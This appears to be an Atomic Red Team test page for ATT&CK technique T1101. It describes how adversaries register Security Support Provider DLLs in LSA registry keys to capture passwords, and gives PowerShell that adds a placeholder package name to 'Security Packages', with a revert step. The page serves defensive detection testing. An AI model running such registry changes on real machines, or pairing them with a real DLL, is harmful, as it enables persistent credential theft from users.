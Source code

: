 # T1101 - Security Support Provider
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1101)
<blockquote>Windows Security Support Provider (SSP) DLLs are loaded into the Local Security Authority (LSA) process at system start. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs. The SSP configuration is stored in two Registry keys: <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages</code> and <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\Security Packages</code>. An adversary may modify these Registry keys to add new SSPs, which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called.
 (Citation: Graeber 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify SSP configuration in registry](#atomic-test-1---modify-ssp-configuration-in-registry)


<br/>

## Atomic Test #1 - Modify SSP configuration in registry
Add a value to a Windows registry SSP key, simulating an adversarial modification of those keys.
**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| fake_ssp_dll | Value added to registry key. Normally refers to a DLL name in C:\Windows\System32. | String | not-a-ssp|

#### Run it with `powershell`! ```
# run these in sequence
$SecurityPackages = Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages'
$SecurityPackagesUpdated = $SecurityPackages
$SecurityPackagesUpdated += "#{fake_ssp_dll}"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $SecurityPackagesUpdated

# revert (before reboot)
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $SecurityPackages
```
<br/>
